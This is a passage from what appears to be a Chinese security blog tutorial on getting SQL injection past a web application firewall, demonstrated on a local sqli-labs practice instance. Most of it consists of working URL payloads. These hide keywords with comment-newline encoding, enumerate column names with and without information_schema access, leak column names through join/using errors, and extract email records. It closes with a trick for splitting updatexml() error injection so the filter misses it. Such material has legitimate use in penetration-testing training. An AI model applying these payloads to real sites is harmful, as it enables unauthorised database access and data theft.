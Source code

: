 查列名，首先是没开information_schema防护时

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23a%0a select 1,(select column_name from %23%0a information_schema.columns where table_name=0x7573657273 and%23a%0a table_schema=database(%23%0a) limit 1,1),3 -- +
```

开information_schema防护有两种姿势，不过需要知道表名

一、子查询

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23a%0a SELECT 1,2,x.2 from %23a%0a(SELECT * from %23a%0a (SELECT 1)a, (SELECT 2)b union  %23a%0aSELECT *from  %23a%0aemails)x limit 2,1 -- +
```

二、用join和using爆列名，前提是页面可以报错，需要已知表名

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23a%0aSELECT 1,2,(select * from %23a%0a(select * from %23a%0aemails a join emails b) c) -- +
```

![20191011213824](https://y4er.com/img/uploads/20191011213824.png)

然后通过using来继续爆

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23a%0aSELECT 1,2,(select * from %23a%0a(select * from %23a%0aemails a join emails b using(id)) c) -- +
```

![20191011213910](https://y4er.com/img/uploads/20191011213910.png)

查数据

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23a%0aSELECT 1,2,(select email_id from%23a%0a emails limit 1,1) -- +
```
其实配合MySQL5.7的特性可以使用sys这个库来绕过，具体看chabug发的文章吧 [注入bypass之捶狗开锁破盾](https://www.chabug.org/web/1019.html)

> 在下文中不再提及开启information_schema防护的绕过姿势，自行举一反三。

## 报错注入

报错注入只提及updatexml报错

关键在于updatexml()结构打乱

```
and updatexml(1,1,1 	不拦截
and updatexml(1,1,1) 	拦截
```

不让updatexml匹配到两个括号就行了

用户名 库名
